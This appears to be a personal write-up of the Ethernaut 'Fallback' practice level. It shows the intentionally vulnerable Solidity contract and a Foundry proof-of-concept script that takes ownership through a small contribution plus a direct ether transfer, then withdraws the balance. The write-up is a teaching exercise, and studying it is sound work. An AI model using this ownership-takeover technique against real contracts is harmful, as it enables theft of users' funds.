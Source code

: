```yaml
---
title: "Fallback"
date: "2024-02-12T09:15:00.000Z"
lastmod: "2024-02-12T09:28:00.000Z"
draft: false
type: "docs"
Difficulty: "⭐"
Date: "2024-01-07"
prev: "fal1out-adc1e96866bc443c8f73279d9d54ddcc"
State: "Terminé"
NOTION_METADATA:
  object: "page"
  id: "3b8b2299-aa21-4a02-b189-968fcb7e63fb"
  created_time: "2024-02-12T09:15:00.000Z"
  last_edited_time: "2024-02-12T09:28:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg"
  parent:
    type: "database_id"
    database_id: "8eb542ce-cd0a-4616-90c5-674614439ec0"
  archived: false
  properties:
    type:
      id: "AcKd"
      type: "select"
      select:
        id: "YEpZ"
        name: "docs"
        color: "default"
    Difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    Date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-07"
        end: null
        time_zone: null
    next:
      id: "%5Eru%5C"
      type: "rich_text"
      rich_text: []
    prev:
      id: "a%5Dip"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "fal1out-adc1e96866bc443c8f73279d9d54ddcc"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "fal1out-adc1e96866bc443c8f73279d9d54ddcc"
          href: null
    State:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    URL:
      id: "juZs"
      type: "url"
      url: null
    Name:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Fallback"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Fallback"
          href: null
  url: "https://www.notion.so/Fallback-3b8b2299aa214a02b189968fcb7e63fb"
  public_url: null
UPDATE_TIME: "2024-02-12T09:30:51.181Z"
EXPIRY_TIME: "2024-02-12T10:30:42.701Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">

- How to send ether when interacting with an ABI

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/84bfeab1-c35b-45ab-a346-76e13736aabe/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240212%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240212T093042Z&X-Amz-Expires=3600&X-Amz-Signature=0770d359694c9fcf981b559b0a904cfebc08398f82f9725e040def77e7723751&X-Amz-SignedHeaders=host&x-id=GetObject)

- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods

	![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/b4ce3656-36aa-4beb-bc96-ece2f5a7c0ba/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240212%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240212T093043Z&X-Amz-Expires=3600&X-Amz-Signature=a2d2b34790079c622282533debfcd0c7dfce1c3d08d83389140841e5ac4a2456&X-Amz-SignedHeaders=host&x-id=GetObject)


	![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/c4aa3c76-5994-4d9d-82a5-9042c15a0b75/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240212%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240212T093043Z&X-Amz-Expires=3600&X-Amz-Signature=281cd13fed4f0d038d28394913027906393064c87581678d0f56afef39b33b29&X-Amz-SignedHeaders=host&x-id=GetObject)


	```solidity
	// SPDX-License-Identifier: MIT
	pragma solidity ^0.8.0;
	
	contract Fallback {
	
	  mapping(address => uint) public contributions;
	  address public owner;
	
	  constructor() {
	    owner = msg.sender;
	    contributions[msg.sender] = 1000 * (1 ether);
	  }
	
	  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }
	
	  function contribute() public payable {
	    require(msg.value < 0.001 ether);
	    contributions[msg.sender] += msg.value;
	    if(contributions[msg.sender] > contributions[owner]) {
	      owner = msg.sender;
	    }
	  }
	
	  function getContribution() public view returns (uint) {
	    return contributions[msg.sender];
	  }
	
	  function withdraw() public onlyOwner {
	    payable(owner).transfer(address(this).balance);
	  }
	
	  receive() external payable {
	    require(msg.value > 0 && contributions[msg.sender] > 0);
	    owner = msg.sender;
	  }
	}
	```

	1. Call the `contribute()` function with a value set to 1 wei.
	1. Call `senTransaction()` with 1 wei also to get ownership of the contract.
	1. Call `withdraw()` to extract the funds from the contract.

	This is frustrating to using the web console to interact with the contract. So I will try to redo the challenge but using foundry this time.


	Let’s start with the same template as before but with the new contract instance address:


	```solidity
	// SPDX-License-Identifier: UNLICENSED
	pragma solidity ^0.8.13;
	
	import "forge-std/Script.sol";
	
	interface Callee {
	}
	
	
	contract POC is Script {
	    Callee level0 = Callee(0xCe9D58330C2623e00018a10164399238723A4F01);
	    function run() external {
	        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
	        vm.startBroadcast(deployerPrivateKey);
	
	
	        vm.stopBroadcast();
	    }
	}
	```


	It is stated that we have to :

	1. claim ownership of the contract
	1. reduce its balance to 0

	This time it’s easier to get the contract interface since we directly have access to the contract source code.


	```solidity
	interface Callee {
	  function owner() view external returns(address);
	  function contribute() external payable;
	  function withdraw() external;
	  function getContribution() external view returns (uint);
	}
	```


	This is the corresponding interface of the function we are going to utilize.


	From here, everything is quite simple. After a close look at the contract source code we came with the following PoC:


	```solidity
	contract POC is Script {
	    Callee level1 = Callee(0x7f584a9D74D461eFDaD062AA9AfEe9629b96c780);
	    function run() external {
	        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
	        vm.startBroadcast(deployerPrivateKey);
	
	        console.logUint(level1.getContribution());
	        console.logAddress(level1.owner());
	
	        level1.contribute{value: 1}();
	        (bool sent,bytes memory data) = address(level1).call{value: 1}("");
	        require(sent, "Failed to sennd Ether");
	        console.logBytes(data);
	
	
	        console.logUint(level1.getContribution());
	
	        level1.withdraw();
	
	        console.logUint(level1.getContribution());
	        console.logAddress(level1.owner());
	
	        vm.stopBroadcast();
	    }
	}
	```

